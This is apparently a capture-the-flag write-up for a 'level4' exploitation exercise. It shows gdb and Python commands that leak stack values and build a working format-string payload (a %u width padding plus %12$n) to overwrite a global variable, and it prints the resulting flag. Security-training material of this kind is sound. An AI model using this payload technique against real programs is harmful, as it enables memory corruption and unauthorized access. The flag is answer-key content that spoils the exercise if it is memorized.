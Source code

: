 ### Download binary
``scp -P4242 level4@192.168.31.170:/home/user/level4/level4 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)
This one is almost exactly like the previous one, the only few things that change are
-The value that we must put in m is too large for the buffer (16930116 in decimal, and we can only write about 520 char)
-The pointer that point to the beginning of our string is rank 12 on the stack (instead of 4)

----

### Building the payload

We need this payload :

**M ADRESS + FILLING CHAR + MEMORY ADRESS OF M IN STACK + %n**

``gdb ./level4``

**Searching for m adress :**

``(gdb) info variables``
>All defined variables:
[...]
0x08049810  m

**Searching for the stack adress of our input :**

``python -c "print 'AAAA' + ' %x ' * 12" | ./level4``
>AAAA b7ff26b0  bffff784  b7fd0ff4  0  0  bffff748  804848d  bffff540  200  b7fd1ac0  b7ff37d0  41414141  20782520  20782520

-> **12th place**.

This time, we don't have enough space in buffer to store the number of char we need. So we gonna use a printf format option.
The width specifier is denoted by a number that specifies the minimum number of characters to be printed. If the printed value has fewer characters than the specified width, it will be padded with spaces on the left by default.

This is our final payload:

``python -c "print '\x10\x98\x04\x08' + '%16930112u' + '%12\$n'" > /tmp/payload``

----

#### Getting the flag

``cat /tmp/payload | ./level4``

>[a lot of spaces]
3086952112
**0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a**
